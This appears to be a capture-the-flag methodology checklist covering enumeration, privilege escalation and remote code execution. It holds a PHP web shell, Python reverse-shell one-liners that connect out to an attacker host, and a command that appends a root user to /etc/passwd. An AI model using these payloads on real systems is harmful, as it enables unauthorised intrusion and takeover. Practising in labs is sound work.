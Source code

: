 # Checklist
# Preperation

<details>
  <summary>Expand</summary>

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)

</details>


# Enumeration

<details>
  <summary>Expand</summary>

- [ ] Enum
	- [ ] Nmap
		- [ ] [Howto](active-information-gathering/nmap.md)
			- [ ] Copy key findings to report
			- [ ] check results
			- [ ] Paste to [report](templates/report.md)
			- [ ] Highlight exploitables/targets
		- [ ] Rustscan
			- [ ] check results
	  - [ ] `enum4linux $IP` -> users, share, comon structure, server block.
	    - [ ] Highlights
	      - [ ] check results
	      - [ ] Check SMB null session
	      - [ ] system level users
		- [ ] nmap-nse
			- [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)
		- [ ] smb/netbio-ssn
			- [ ] Ports [139, 445]
			- [ ] `mkdir smb`
			- [ ] `nmap -p139,445 --script=smb-enum-shares $IP`
				- [ ] `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
				- [ ] smbclient //'IP'/qui -N
				- [ ] crackmapexec
				- [ ] mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
			- [ ] `smbmap -H $IP`
			- [ ] `smbclient --no-pass -L //$IP`
			- [ ] `smbclient --no-pass \\\\$IP\\anonymous`
			- [ ] `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
			- [ ] `mget file.name`
			- [ ] `smbmap -u <user> -p <PassWord> -H $IP`
			- [ ] `smbclient //'IP'/<share> -U'user'%'password'`
			- [ ] `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`
		- [ ] ssl/pop3 [110]
		- [ ] ssl/imap [993/143]
		- [ ] Apache Tomcat [8080]
			- [ ] Read Version
			- [ ] Check URL (hints)
			- [ ] default credentials
			- [ ] mfsconsole /is it allowed?
		- [ ] Domain [53]
		- [ ] Web Enum
			- [ ] Load each targetted port in browser
			- [ ] export PORT=80
			- [ ] `dirb http://$IP:$PORT/ -r`
			- [ ] `nikto --host http://<IP> -C all` :: tool for webapp
			- [ ] `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
				- [ ] HTTPS you will want to include protocol too
				- [ ] `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
			- [ ] `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
			- [ ] framework/server/service -> searchexploit
			- [ ] Check for config through URL's like
			- [ ] hostname/username/re-use etc
			- [ ] LFI
				- [ ] check for ssh keys
				- [ ] check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
				- [ ] vsftpd -> upload, to rce from upload file
			- [ ] RFI
				- [ ] rev shell
					- [ ] https://www.revshells.com/
					- [ ] `python -c 'import pty;pty.spawn("/bin/bash")'`
			- [ ] `linpeas.sh`
			- [ ] CUPS Http `631`
		- [ ] SSH
			- [ ] hydra
				- [ ] [Howto](tools/bruteforce/ssh/hydra)
		- [ ] `curl -A "GoogleBot" http://$IP/robots.txt`
		- [ ] searchsploit
		- [ ] Port knocking
			- [ ] nmap port knock 
	- [ ] /cgi-bin
		- [ ] shellshock [Howto](foothold/shellshock)
	- [ ] morse code?
</details>


# Privilege Escalation

<details>
	<summary>Expand</summary>

- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] `kernel exploits?`
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)

</details>


# Remote Code Execution (RCE)

<details>
	<summary>Expand</summary>

- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


# Reverse Shell

<details>
	<summary>Expand</summary>

- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`

</details>